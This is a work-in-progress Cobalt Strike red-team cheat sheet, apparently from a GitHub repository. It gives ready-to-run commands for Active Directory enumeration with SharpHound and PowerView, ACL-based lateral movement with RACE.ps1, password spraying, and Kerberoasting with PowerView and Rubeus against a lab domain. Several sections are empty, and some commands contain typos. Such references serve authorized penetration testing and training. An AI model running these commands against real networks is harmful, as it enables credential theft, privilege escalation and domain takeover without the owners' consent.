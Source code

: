 # NOTE: WORK IN PROGRESS

# Cobalt Strike Red Team Cheat Sheet
---
## Domain Enumeration

Running PowerView and SharpView
```
PowerView:
# powershell-import --> Select PowerView.ps1 to import PS1 file in memory
# powershell Get-Module PowerView
# powershell Get-NetUser -Identity testuser -Domain lab.com

SharpView
# execute-assembly C:\SharpView.exe Invoke-CheckLocalAdminAccess --> Check servers for local admin using current privileges
```

Running ActiveDirectory module
```
# powershell import --> Select \ADModule\Microsoft.ActiveDirectory.Management.dll  file from https://github.com/samratashok/ADModule
# powershell Get-ADDomainController -Domain lab.com
```

Running Sharphound (.NET version of Bloodhound) for AD domain collection
```
Running SharpView in memory (.NET version of PowerView)
# execute-assembly C:\SharpHound.exe --CollectionMethod All --Domain lab.com --Stealth --excludedomaincontrollers --windowsonly --OutputDirectory C:\users\testuser\appdata\local\temp\

Collecting only user sessions to determine who is logged in and where:
# execute-assembly C:\SharpHound.exe --CollectionMethod Session,LoggedOn --Outputdirectory C:\temp\

Collection methods reference: https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound-all-flags.html
```
---
## Local Privilege Escalation
PowerUp

-------------------------------------------------------------
## Lateral Movement
Invoke-TheHash

Enable Powershell Remoting manually
```
powershell 
```

[RACE.ps1](https://github.com/samratashok/RACE): ACL attacks for lateral movement, persistence and privilege escalation
```
# powershell-import --> RACE.ps1
# powershell Set-RemotePSRemoting -SamAccountName testuser -ComputerName ops-dc.lab.com
# powershell Set-RemoteWMI -SamAccountName testuser -Computername ops-dc.lab.com
```
-------------------------------------------------------------
## Domain Privilege Escalation
### GPP Password
[Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

### Password spraying
[DomainPasswordSpray.ps1](https://github.com/dafthack/DomainPasswordSpray)
```
Get a domain user list
# powershell Get-DomainUserList -Domain lab.com -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt

Password spray from a username and password list
# powershell Invoke-DomainPasswordSpray -UserList userlist.txt -PasswordList passlist.txt -Domain lab.com -OutFile sprayed-creds.txt

Auto spray a specific password on an auto-generated user list (noisy)
# powershell Invoke-DomainPasswordSpray -Password Winter2020
```

### Kerberoasting
PowerView kerberoasting
```
Get users with SPN set
# powershell Get-DomainUesr -SPN

Kerberoast all users
# powershell Invoke-Kerberoast - OutputFormat hashcat | fl

Kerberoast specific user
# powershell Invoke-Kerberoast -Identity testaccount -Domain lab.com -OutputFormat hashcat | fl
```

Rubeus kerberoasting
```
Kerberoast all users:
# execute-assembly C:\Rubeus.exe kerberoast /outfile:KerbHashes.txt /domain:lab.com

Kerberoast specific user:
# execute-assembly C:\Rubeus.exe kerberoast /outfile:KerbHash.txt /user:testaccount /domain:lab.com
```

-------------------------------------------------
## Exploitation

### Chrome Session Stealing
SharpDPAPI and SharpChrome

---
## Exfiltration - Password Attacks


---
# References
Cobalt Strike commands cheat-sheet: https://github.com/S1ckB0y1337/Cobalt-Strike-CheatSheet
Sharphound: https://github.com/BloodHoundAD/SharpHound3
